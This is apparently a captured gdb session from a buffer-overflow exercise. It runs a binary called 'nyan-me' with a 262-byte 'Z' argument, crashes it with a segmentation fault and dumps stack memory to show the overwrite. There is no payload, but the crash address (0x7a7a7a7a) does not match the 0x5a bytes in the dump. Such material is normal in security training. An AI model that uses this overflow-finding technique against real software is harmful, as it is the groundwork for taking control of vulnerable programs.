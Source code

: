 ```sh
(gdb) r -t `python -c "print('Z' * 262)"`
Starting program: nyan-me -t `python -c "print('Z' * 262)"`

Program received signal SIGSEGV, Segmentation fault.
0x7a7a7a7a in ?? ()
(gdb) x/200x $ebp
0xbffffcc8:	0xbffffcf8	0x08049a82	0x00000003	0xbffffda4
0xbffffcd8:	0xb7e45880	0x08049a5f	0x00000003	0xbffffda4
0xbffffce8:	0xbffffdb4	0xbffffd10	0x00000000	0x00000003
0xbffffcf8:	0x00000000	0xb7e2f286	0x00000003	0xb7fca000
0xbffffd08:	0x00000000	0xb7e2f286	0x00000003	0xbffffda4
0xbffffd18:	0xbffffdb4	0x00000000	0x00000000	0x00000000
0xbffffd28:	0xb7fca000	0xb7fffc0c	0xb7fff000	0x00000000
0xbffffd38:	0x00000003	0xb7fca000	0x00000000	0x91472aef
0xbffffd48:	0xab5986ff	0x00000000	0x00000000	0x00000000
0xbffffd58:	0x00000003	0x080487b0	0x00000000	0xb7ff0710
0xbffffd68:	0xb7e2f199	0xb7fff000	0x00000003	0x080487b0
0xbffffd78:	0x00000000	0x080487d1	0x08049a47	0x00000003
0xbffffd88:	0xbffffda4	0x08049aa0	0x08049b00	0xb7feb070
0xbffffd98:	0xbffffd9c	0xb7fff920	0x00000003	0xbffffe8a
0xbffffda8:	0xbffffeae	0xbffffeb1	0x00000000	0xbfffffba
0xbffffdb8:	0x00000000	0x00000020	0xb7fd9cd0	0x00000021
0xbffffdc8:	0xb7fd9000	0x00000010	0x078bfbbf	0x00000006
0xbffffdd8:	0x00001000	0x00000011	0x00000064	0x00000003
0xbffffde8:	0x08048034	0x00000004	0x00000020	0x00000005
0xbffffdf8:	0x00000009	0x00000007	0xb7fdb000	0x00000008
0xbffffe08:	0x00000000	0x00000009	0x080487b0	0x0000000b
0xbffffe18:	0x000003e8	0x0000000c	0x000003e8	0x0000000d
0xbffffe28:	0x000003e8	0x0000000e	0x000003e8	0x00000017
0xbffffe38:	0x00000000	0x00000019	0xbffffe6b	0x0000001f
0xbffffe48:	0xbfffffd8	0x0000000f	0xbffffe7b	0x00000000
0xbffffe58:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffe68:	0xd4000000	0x85433ded	0x89c8375e	0x9d198054
0xbffffe78:	0x69faf928	0x00363836	0x00000000	0x00000000
0xbffffe88:	0x682f0000	0x2f656d6f	0x6c346b73	0x796e2f61
0xbffffe98:	0x742d6e61	0x2f677568	0x2f6e6962	0x6e61796e
0xbffffea8:	0x7568742d	0x742d0067	0x5a5a5a00	0x5a5a5a5a
0xbffffeb8:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbffffec8:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbffffed8:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbffffee8:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbffffef8:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff08:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff18:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff28:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff38:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff48:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff58:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff68:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff78:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff88:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffff98:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffffa8:	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a	0x5a5a5a5a
0xbfffffb8:	0x5750005a	0x682f3d44	0x2f656d6f	0x6c346b73
0xbfffffc8:	0x796e2f61	0x742d6e61	0x2f677568	0x006e6962
0xbfffffd8:	0x6d6f682f	0x6b732f65	0x2f616c34	0x6e61796e
```
